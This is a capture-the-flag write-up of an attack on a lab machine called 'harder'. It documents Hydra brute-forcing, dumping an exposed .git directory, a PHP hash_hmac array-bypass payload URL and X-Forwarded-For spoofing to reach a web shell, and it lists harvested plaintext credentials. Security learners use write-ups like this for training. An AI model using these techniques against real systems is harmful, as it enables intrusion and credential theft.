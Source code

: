 # harder

## Enumeration

Start with an `nmap` scan per usual to see which ports are open, and what services run on the respective ports. `sudo nmap -Pn -v -A 10.10.222.15`

![nmap](images/nmap.png)

The website at port `80` seems empty, so we use `gobuster` to find hidden directories. This also seems to fail, because all requests are redirected to a standard error site.

By using Burp Suite we observe a _domain_ tag in the response from the website.

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 20 Sep 2020 18:13:29 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.3.19
Set-Cookie: TestCookie=just+a+test+cookie; expires=Sun, 20-Sep-2020 19:13:29 GMT; Max-Age=3600; path=/; domain=pwd.harder.local;secure
```

This response sets a cookie that is associated with the domain `pwd.harder.local`. When sending a request through burp to _pwd.harder.local_ we see that the site now has a lot more content.

![new request](images/alterRequest.png)

We thus need to associate the IP to the webserver with _pwd.harder.local_. `sudo nano /etc/hosts` and adding `<IP_to_server> pwd.harder.local` under the IPv4 section. This means that going to the website `pwd.harder.local` will take you to the associated IP.

Going to `pwd.harder.local` prompts us with a login. 

![login](images/login.png)

Using Hydra we try to crack the password `hydra pwd.harder.local -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/index.php:action=set_login&user=^USER^&pass=^PASS^:Invalid"`, and end up getting `[80][http-post-form] host: pwd.harder.local   login: admin   password: admin`.

username: admin

password: admin

After some trying and failing, I run gobuster on http://pwd.harder.local/ to try and find a hidden directory. Lucky for us there seems to be a hidden `/.git/` directory!

![gobuster](images/gobuster.png)

By going to `/.git/HEAD` we're prompted with a download for the HEAD file.

![git](images/git.png)

Using [GitDumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py) I recursively try to download the contents of the hidden .git directory.

![gitdumper](images/git-dumper.png)

GitDumper found three php files in the .git directory. Taking a look at the first one, `auth.php` we see on the first line that the admin username and password is defined in plain text.
![admin](images/auth.png)

The `hmac.php` file, on the other hand, contains some very interesting code
```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

This code throws a 40x error unless you somohow manage you know the secret generated `hm` value. You must send in at least two values `h` and `host`, and a seemingly optional `n`. [Refer to this article for more information regarding why this code is vulnerable](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up). The really boiled down version of why this is exploitable is becase `hash_hmac('sha256', $_GET['n'], $secret)`, where `n` is an empty array and not a string, will return `false`. We can therefore always know the salt, `$secret=false`, which is used while generating `$hm = hash_hmac('sha256', $_GET['host'], $secret);`. This means that we can generate the hash locally and send it in together with the pre-image of the hash to get access.

By running 
```php
<?php
$secret = hash_hmac('sha256', "LookMomImHacking", false);
echo $secret;
?>
```
We get the hash `aca57efd1094b6befc7c79c010899e97364bd971523cd24236e26beed850bbfb`. 

From there it was easy to construct the payload `http://pwd.harder.local/index.php?h=aca57efd1094b6befc7c79c010899e97364bd971523cd24236e26beed850bbfb&n[]=&host=LookMomImHacking`, which gave us a link to a new "shell" and a pair of credentials. 

![harder.png](images/harder.png)

```
Username: evs
Password: 9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
```

Heading to `shell.harder.local` gives us an _unknown host_ error. It must be added to `/etc/hosts` before we can proceed. It works, and we're greeted with a login page. After entering the credentials above we are met with yet another roadblock.

![](images/ip.png)

By changing the `X-Forwarded-For` header to something valid (for example 10.10.10.10) we are able to fool the server into thinking our request originated from that IP.
In Burp Suite's proxy you can use _match and replace_ to automatically add the header to all requests.

![](images/xForwarded.png)

Finally! We get access to some sort of shell we're able to interact with.

![](images/cmd.png)

By poking around a little we find `evs` home directory, and the user's `user.txt` file.

![](images/user.png)

Great! We got the user flag, but we want to further escalate our privileges. An method that often comes in handy is searching for all files that belong to our user. The user is in this case `www`. So we execute the command `find / -user www`. In the myriad of files we find this suspicious lookign script.


![](images/evs-backup.png)


Heading over to this file gives us some new credentials for `evs`.

```bash
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
```

We got lucky when testing the credentials out on SSH.

![](images/ssh.png)

I uploaded and ran _linpeas_, which told me to take a look at a file called `run-crypted.sh` and some public key looking file.

![](images/lin.png)

The `run-crypted.sh` file looks like this

```bash
if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```